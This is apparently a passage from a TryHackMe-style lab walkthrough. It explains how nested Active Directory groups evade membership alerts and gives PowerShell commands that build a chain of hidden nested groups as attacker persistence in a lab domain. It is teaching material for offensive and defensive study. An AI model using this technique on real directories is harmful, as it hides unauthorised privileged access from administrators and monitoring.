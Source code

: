 ## Nested Groups

In most organisations, there are a significant amount of recursive groups. A recursive group is a group that is a member of another group. We can think of this as group nesting. Group nesting is used to create a more organised structure in AD. Take the IT Support group, for example. IT Support is very generic. So perhaps there are subgroups like Helpdesk, Access Card Managers, and Network Managers underneath this group. We can add all of these groups as members to the IT Support group, which gives all users in these subgroups the permissions and privileges associated with the IT Support group, but we can then assign more granular permissions and privileges for each of the subgroups.

While group nesting helps to organise AD, it does reduce the visibility of effective access. Take our IT Support example again. If we query AD for membership of the IT Support group, it would respond with a count of three. However, this count is not really true since it is three groups. To get an idea for effective access, we would now have to enumerate those subgroups as well. But those subgroups can also have subgroups. So the question becomes: "How many layers deep should we enumerate to get the real effective access number?"

This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group. This is a very common problem since AD is managed by the AD team, and alerting and monitoring are managed by the InfoSec team. All we need is a little bit of miscommunication, and the alert is no longer valid since subgroups are used.  

As an attacker, we can leverage this reduced visibility to perform persistence. Instead of targeting the privileged groups that would provide us with access to the environment, we focus our attention on the subgroups instead. Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.

## Nesting Our Persistence

Let's simulate this type of persistence. In order to allow other users also to perform the technique, make sure to prepend your username to all the groups that you create. In order to simulate the persistence, we will create some of our own groups. Let's start by creating a new base group that we will hide in the People->IT Organisational Unit (OU):

```markup
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

Let's now create another group in the People->Sales OU and add our previous group as a member:

```markup
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

We can do this a couple more times, every time adding the previous group as a member:

```markup
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"
```